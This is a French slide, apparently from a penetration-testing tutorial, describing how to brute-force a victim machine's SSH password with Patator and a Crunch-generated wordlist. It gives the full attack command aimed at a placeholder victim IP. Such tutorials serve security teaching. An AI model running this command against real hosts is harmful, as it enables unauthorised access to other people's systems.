

# BruteForce du mot de passe SSH avec Patator
Ensuite, l’outil Patator va nous aider à trouver exactement le mot de passe SSH de la machine de la victime en utilisant la liste de combinaisons que nous avons créée avec Crunch plus tôt. Pour cela, on entre la commande suivante:
patator ssh_login host=[victime_ip] user=user password=FILE0 0=mylist.txt -x ignore:mesg='Authentication failed.'

Ensuite, on attend que Patator nous affiche le mot de passe. Cette étape peut prendre plusieurs minutes.